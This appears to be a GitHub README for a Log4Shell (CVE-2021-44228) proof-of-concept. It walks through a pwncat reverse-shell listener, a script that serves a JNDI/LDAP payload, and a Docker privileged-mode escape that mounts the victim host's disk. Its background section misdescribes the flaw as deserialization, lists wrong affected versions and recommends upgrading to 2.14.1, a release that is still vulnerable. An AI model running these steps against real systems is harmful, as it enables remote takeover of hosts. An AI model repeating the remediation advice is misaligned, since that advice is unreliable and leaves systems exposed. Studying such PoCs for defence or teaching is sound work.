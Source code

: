 Log4j Vulnerability (CVE-2021-44228)
----------------------

A security vulnerability, identified as CVE-2021-44228, has been discovered in certain versions of the Log4j library. In this proof of concept (poc) the explotetion of the log4j vulnerability is combined with another misconfiguration which allow an attacker to gain complete control of a victim host.

The vulnerability is caused by a flaw in the way Log4j handles deserialization of untrusted data. An attacker could exploit this vulnerability by injecting malicious payloads into the log data, which would then be deserialized by Log4j. If the victim host has a vulnerable version of Log4j and a misconfigured Java Object Input Stream (OIS) deserialization, the attacker could potentially execute arbitrary code with the same privileges as the user running the application.
In this example, multiple exploits are used in succession. First, the log4j vulnerability is exploited, and then a misconfiguration in the privileged mode of the Docker service is exploited in order to gain access to the host system.

Affected versions of Log4j are:
2.13.3 and prior
2.14.0
It is highly recommended to upgrade to Log4j version 2.14.1 or later, which addresses this vulnerability.

In addition to upgrading Log4j, it is important to ensure that the OIS deserialization is properly configured to only deserialize trusted data. This can be done by implementing a custom ObjectInputStream subclass that checks for malicious payloads or by disabling deserialization altogether if it is not needed for the application.

Please also review your system and verify that you are not using any vulnerable version of log4j and also check the deserialization configuration of your application.

It is important to keep your software up to date, and to be aware of any security vulnerabilities that may affect your systems. If you suspect that your host may have been compromised, it is important to take immediate action to contain the damage and prevent further attacks.

----------------------

As a PoC, a python file that automates the process is been created. 


#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage (exploiting log4j vuln):

* Start a pwncat listener to accept reverse shell connection.<br>
```py
pyhton3 -m pwncat -lp 4545 -m linux
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 9000 --lport 4545

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/stefanosimonetto/log4j-shell-poc.git
[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Dockerized vulnerable application
--------------------------

A Dockerfile is been added with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --priviliged --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

#### Usage (exploiting Docker misconfiguration):
Once you have remote code execution enable:
-press CTRL+D to change from local to remote
Execute the following commands to make a directory and copy the victim's host disk:
```bash
mkdir -p /mnt/pwned
mount /dev/sda1 /mnt/pwned
```


Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Using this exploit for malicious activity is not endorsed or supported. If assistance is requested, proof of ownership or authorized penetration testing permission for the target service may be required.

